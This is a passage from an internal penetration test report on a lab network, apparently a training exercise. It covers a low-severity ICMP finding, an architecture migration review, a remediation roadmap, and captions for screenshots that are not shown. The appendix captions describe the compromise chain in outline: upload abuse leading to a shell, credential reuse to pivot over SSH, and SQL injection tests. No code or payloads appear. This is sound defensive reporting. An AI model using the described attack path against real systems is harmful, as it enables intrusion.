Management action:

Limit SSH to modern ciphers, remove weak compatibility options, and restrict management interfaces to administrative paths only.

## 4.6 PT-08 ICMP Timestamp Disclosure

- Affected hosts: 10.0.10.102, 10.0.10.106
- Severity: Low

Both the backend and Windows host scans identified ICMP timestamp disclosure. This is low impact in isolation, but it contributes to host fingerprinting and should be addressed where operationally feasible.

Primary evidence:

- [nessus-10.0.10.102.pdf](../scans/nessus/nessus-10.0.10.102.pdf)
- [nessus-10.0.10.106.pdf](../scans/nessus/nessus-10.0.10.106.pdf)

## 5.1 Secure-State Architecture Review

The newly added architecture and migration documents describe a materially stronger operating model than the legacy vulnerable path.

The intended secure runtime introduces the following controls:

- Migration from a legacy PHP-driven application path to a JavaScript frontend and Node.js or Express backend model
- TLS at the frontend edge and HTTPS service exposure across the active runtime
- Reverse-proxied API access instead of broad direct backend exposure
- Internal service token enforcement for frontend-to-backend trust
- JWT-based user authentication with secure cookie handling
- MongoDB with TLS and authentication enabled
- Tokenization of sensitive values before persistence
- Use of `.env` driven configuration in the new deployment workflow instead of plaintext credential sprawl in the legacy path
- Password handling based on one-way hashing rather than raw credential storage

This design is a meaningful improvement over the legacy model described in the attack notes. It directly addresses several of the failures that made the original compromise practical.

Primary references:

- [ARCHITECTURE.md](../../setup/architecture/ARCHITECTURE.md)
- [SECURITY_MIGRATION_REPORT.md](../../setup/target-environment/SECURITY_MIGRATION_REPORT.md)
- [VULNERABILITIES.md](../../setup/target-environment/VULNERABILITIES.md)

## 5.2 Three-Tier Migration and Data Protection Assessment

The migration material is strongest when read as a control-by-control comparison between the old and new three-tier models.

Legacy path documented in the notes and migration files:

- Public PHP application exposure on 10.0.10.105
- Weak upload handling and direct server-side execution risk
- Credential material exposed on the application tier
- Broad trust between the public tier and the internal backend
- Older database communication model with weaker transport assumptions

Target-state path documented in the new material:

- JavaScript frontend behind an Nginx TLS edge
- Node.js or Express backend exposed over HTTPS on the internal application tier
- MongoDB replacing the weaker earlier database pattern, with authentication and `requireTLS`
- Frontend-to-backend trust reduced through reverse proxying and internal token validation
- Sensitive values tokenized before persistence, reducing raw data exposure in storage
- Secure cookie handling, improved secret placement in `.env`, and stronger deployment discipline
- Windows and Linux firewalling used to reduce unnecessary lateral reachability

For data protection, the evidence now supports the following measured conclusions:

- Data in transit is explicitly protected through end-to-end TLS across the target-state stack.
- Password material is handled through one-way derivation and salting rather than reversible storage.
- Application-layer tokenization materially reduces raw sensitive data held at rest in the database tier.
- The documents do not explicitly prove AES-GCM deployment in the current implementation, so that control should be treated as a recommended cryptographic standard for any remaining encrypted-at-rest use cases rather than a completed claim already validated by this assessment.

That final qualification is important. The migration is clearly stronger, but the report should distinguish between controls that are already evidenced and controls that should be standardized during final hardening and retest.

## 5.3 Upload Remediation Review

The upload remediation report is detailed and credible. It moves the control point from extension-based trust to layered server-side validation, image parsing, content normalization, private storage, controlled serving, and CSRF validation. It also maps the issue cleanly to OWASP Top 10 categories and references relevant CVEs used as guidance.

That remediation path is the correct direction for the central finding in this report. It should be validated in the deployed environment rather than accepted solely as a code or design statement.

Primary reference:

- [FILE_UPLOAD_REMEDIATION_OWASP_CVE.md](../../setup/target-environment/FILE_UPLOAD_REMEDIATION_OWASP_CVE.md)

## 5.4 Remediation Roadmap

Immediate priorities:

1. Remove or isolate the vulnerable legacy upload path from any reachable deployment.
2. Rotate all exposed credentials and review backend host 10.0.10.102 for persistence.
3. Restrict or retire the exposed management paths that supported internal movement.
4. Require SMB signing on 10.0.10.106.

Near-term priorities:

1. Validate the secure runtime architecture in a deployed environment.
2. Enforce TLS and trust validation across service-to-service paths.
3. Remove legacy assets from active deployment and reduce residual attack surface.
4. Centralize logging for frontend, backend, and database events.

Program-level priorities:

1. Move secrets into a managed vault.
2. Add CI validation for upload abuse, access control, and secure configuration drift.
3. Preserve Cowrie/Splunk telemetry as a detection control, but do not confuse it with production administration.

## 5.5 Final Conclusions

This is now a stronger internal report than the initial draft because it does not stop at the exploit chain. It ties together the exploit evidence, host scanning, monitoring telemetry, and documented secure-state design.

The final management conclusion is this: the legacy environment was vulnerable in a way that permitted a practical compromise path from public exposure to internal access. The newer architecture and remediation material in the workspace is directionally strong and should serve as the basis for remediation validation, closure tracking, and retest planning.

## 6.1 Nessus Evidence Appendix

- [nessus-10.0.10.105.pdf](../scans/nessus/nessus-10.0.10.105.pdf)
- [nessus-10.0.10.102.pdf](../scans/nessus/nessus-10.0.10.102.pdf)
- [nessus-10.0.10.106.pdf](../scans/nessus/nessus-10.0.10.106.pdf)

## 6.2 Monitoring Evidence Appendix

The Splunk/Cowrie reporting below supports the classification of TCP/2222 activity as monitored decoy interaction rather than productive server administration.

- [Splunk_Cowrie-2026-04-09.pdf](../../blue-team/monitoring/splunk/Splunk_Cowrie-2026-04-09.pdf)

The screenshot below records additional Splunk-facing monitoring context and supports the inclusion of detection evidence in this report.


The screenshot below is treated as a monitoring or detection reference image and is included because it was added to the workspace with the final evidence set.


## 6.3 Remediation and Secure-State Appendix

The screenshots below are included because they appear to document the secure-state design, firewalling, and remediation workflow that was added to the workspace after the attack evidence.

This screenshot appears to document sensitive environment file exposure and supports the credential exposure narrative described in the main findings.



This screenshot appears to document sensitive information exposure more broadly and supports the application-tier information disclosure risk.



This screenshot appears to show frontend proxy and service-token configuration and supports the secure frontend-to-backend trust model described in the architecture document.



This screenshot appears to show firewall policy configuration and supports the documented intent to restrict backend reachability.



This screenshot appears to show additional firewall policy state and should be read alongside the first firewall image.



This screenshot appears to show Windows firewall enablement and supports the internal hardening path for the Windows host.



This screenshot appears to record an IOC or telemetry view for the Ubuntu DMZ server and supports the operational monitoring narrative.



These dated screenshots were added with the final evidence set and are retained here as supporting visual records pending formal labeling.


The following two additional mobile screenshots were also present in the final workspace evidence set and are retained here to ensure the appendix contains the complete screenshot inventory.


## 6.4 Historical Exploitation Screenshots Appendix

The images below remain part of the formal evidence record for the original compromise path.

The first screenshot records backend application review activity and supports the note that the tester examined the internal application surface after initial access.



The next screenshot documents backend SSH interaction and supports the finding that the recovered credentials were used against the internal host.


This screenshot provides an additional view of the same backend SSH access path and supports the continuity of the authenticated session.


This screenshot captures follow-on reconnaissance against the Windows host and supports the statement that additional discovery activity was performed after the backend pivot.


This screenshot records HTTPAPI-related review on the Windows host and supports the identification of additional services on 10.0.10.106.


This screenshot records web application review activity during the external phase and supports the statement that the public application was examined beyond simple port enumeration.



This screenshot captures one of the login testing attempts and documents the SQL injection checks referenced in the notes.


This second screenshot provides additional visual evidence of the same SQL injection testing sequence.


This screenshot captures the directory traversal attempt discussed in the notes and supports the conclusion that the request did not produce a successful file disclosure result.


This screenshot documents interaction with the SSH decoy service and supports the classification of TCP/2222 as monitored honeypot infrastructure.


This screenshot captures the associated monitoring output and supports the observation that the SSH interaction generated detection telemetry rather than legitimate access.


This screenshot records the file upload stage and supports the finding that the application accepted user-supplied content through the avatar workflow.


This screenshot captures the first step of the exploitation workflow in Caido and supports the sequence used to turn the upload path into code execution.


This screenshot captures the second step of the Caido workflow and supports the staged abuse of the upload function.


This screenshot captures the third step of the Caido workflow and supports the transition from upload handling to command execution.


This screenshot captures the fourth step of the exploitation sequence and supports the reliability of the attack path.


This screenshot captures the fifth step of the exploitation sequence and supports the repeated success of the HTTP workflow used by the tester.


This screenshot captures the final step of the exploitation sequence and supports the conclusion that the upload path could be driven to a working shell state.


This screenshot records the exposed credential material recovered from the application tier and supports the subsequent pivot to the backend system.



## References

- [ARCHITECTURE.md](../../setup/architecture/ARCHITECTURE.md)
- [KILL_CHAIN.md](../../setup/target-environment/KILL_CHAIN.md)
- [VULNERABILITIES.md](../../setup/target-environment/VULNERABILITIES.md)
- [SECURITY_MIGRATION_REPORT.md](../../setup/target-environment/SECURITY_MIGRATION_REPORT.md)
- [FILE_UPLOAD_REMEDIATION_OWASP_CVE.md](../../setup/target-environment/FILE_UPLOAD_REMEDIATION_OWASP_CVE.md)
- [nessus-10.0.10.105.pdf](../scans/nessus/nessus-10.0.10.105.pdf)
- [nessus-10.0.10.102.pdf](../scans/nessus/nessus-10.0.10.102.pdf)
- [nessus-10.0.10.106.pdf](../scans/nessus/nessus-10.0.10.106.pdf)
- [Splunk_Cowrie-2026-04-09.pdf](../../blue-team/monitoring/splunk/Splunk_Cowrie-2026-04-09.pdf)
